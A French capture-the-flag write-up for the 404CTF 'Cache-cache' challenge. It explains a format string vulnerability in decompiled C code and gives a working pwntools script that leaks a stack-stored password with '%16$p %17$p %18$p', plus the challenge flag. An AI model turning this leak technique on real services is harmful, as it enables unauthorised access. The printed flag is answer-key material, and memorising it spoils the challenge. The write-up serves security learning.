

# Cache-cache

> Agent, il semble que suite à de nombreux scans réseaux, vos collègues ont découvert des endpoints suspects appartenant, semble-t-il, à Hallebarde. Nous pensons qu'ils servent de passerelle entre Hallebarde et des scientifiques qui se sont récemment mis à vendre les informations de leurs recherches. Votre mission est de passer la sécurité de cet endpoint et d'essayer d'en savoir plus sur la situation.
>
> nc challenge.404ctf.fr 31946

## Description

Je reverse le binaire avec Ghidra et j'obtiens la partie de `main` qui est intéressante (j'ai rajouté quelques commentaires pour faciliter la compréhension):

```c
  // Choix de time() comme seed pour le PRNG
  uVar1 = time(0);
  srandom(uVar1);

  // Génération du secret, qui est mis dans auStack248
  for (; iStack304 != 0; iStack304 = iStack304 + -1) {
    uStack300 = rand_lim((int)uStack296 + -1);
    uStack306 = picker(apuStack280[uStack300]);
    strncat(auStack248,&uStack306,1);
  }

  // Demande le nom d'utilisateur, et l'affiche
  puts(&UNK_00495060);
  fgets(auStack136,0x78,stdin);
  printf(&UNK_00495084);
  printf(auStack136);

  // Demande le mot de passe (et enlève le \n)
  puts(&UNK_0049508d);
  fgets(auStack216,0x15,stdin);
  lVar3 = strcspn(auStack216,&UNK_004950ab);
  auStack216[lVar3] = 0;

  // Vérifie si le mot de passe est égal au secret
  puts(&UNK_004950b0);
  iVar2 = strcmp(auStack248,auStack216);
  uStack305 = iVar2 == 0;
  if ((bool)uStack305) {
    // Si oui, affiche le flag
    puts(&UNK_004950e0);
    puts(&UNK_00495140);
    uStack288 = fopen64(&UNK_004951d1,&UNK_004951ce);
    fgets(auStack184,0x28,uStack288);
    puts(auStack184);
    fclose(uStack288);
  }
  else {
    puts(&UNK_004951e0);
  }
```

On voit donc qu'un mot de passe est généré de manière pseudo-aléatoire, puis on nous demande notre nom, et celui-ci est affiché, puis on doit entrer le mot de passe qui a été généré aléatoirement.

Je vois deux vulnérabilités ici:
1) c'est un générateur pseudo-aléatoire qui est utilisé, et le temps est utilisé comme graine. On peut donc probablement tenter de se synchroniser avec le serveur pour générer le même mot de passe;
2) On contrôle le nom d'utilisateur, et celui-ci est affiché en utilisant `printf(auStack136)` plutôt que `print("%s", auStack136)`. Il s'agit d'une format string vulnerability.

Je pars plutôt sur la solution 2 qui permet de ne pas avoir à se synchroniser avec le serveur (qui demanderait un petit brute force).

### Format string vulnerability

Le principe de la format string vulnerability est qu'en utilisant `printf`, le premier argument est la format string.

Ainsi, la chaîne de caractères que je contrôle peut être considérée comme une chaîne de format, et si je rentre `%d`, `printf` va regarder le second argument et l'afficher comme un entier.

Or, il n'y a pas de second argument ici: `printf` va donc afficher le premier élément sur la stack, et j'ai ainsi pu avoir accès à un élément potentiellement secret.

## Solution

Je cherche donc à afficher le secret qui a été généré précédemment (et qui est sur la stack).

Pour ce faire, je lance `gdb` pour savoir à quel offset de ma stack il se trouve.

Je mets un breakpoint sur `printf` (pour m'arrêter juste avant la vulnérabilité), et je rentre comme nom d'utilisateur `%p %p %p %p %p %p %p` pour afficher le début de la stack.

Puis avant le `printf`, j'affiche la stack avec `x/40wx $rsp`, et je laisse le programme tourner pour afficher le début de la stack.



Et là je vois que le 6e élément affiché est `0x7fffffffde18` (encadré en rouge), le 7e est `0x10041cb7e` (encadré en orange).

Par ailleurs, comme le mot de passe est stocké en `local_f0`, cela signifie qu'il est à l'adresse `$rbp-0xf0`, ce que j'affiche avec `p/x $rbp-0xf0`. Il s'agit de ce qui est encadré en vert sur la capture précédente.

Je peux donc compter: le mot de passe est sur les 16e, 17e et 18e éléments de la stack, ce que je peux afficher avec `%16$p %17$p %18$p`.

Reste ensuite à reconstituer la chaîne de caractères et à l'envoyer.

Le code suivant effectue ces opérations:

```python
from pwn import *

sh = remote("challenge.404ctf.fr", 31946)

sh.recvuntil(b":")
sh.sendline("%16$p %17$p %18$p")

sh.recvuntil(b"Bonjour ")
leaked = [int(x, 16) for x in sh.recvline().decode().split(" ")]
password = b"".join(x.to_bytes(8, "little") for x in leaked)
sh.recvuntil(b"passe?")
sh.sendline(password)
sh.interactive()
```

Flag: `404CTF{13_10UP_D3V0r3_14_H411384rD3}`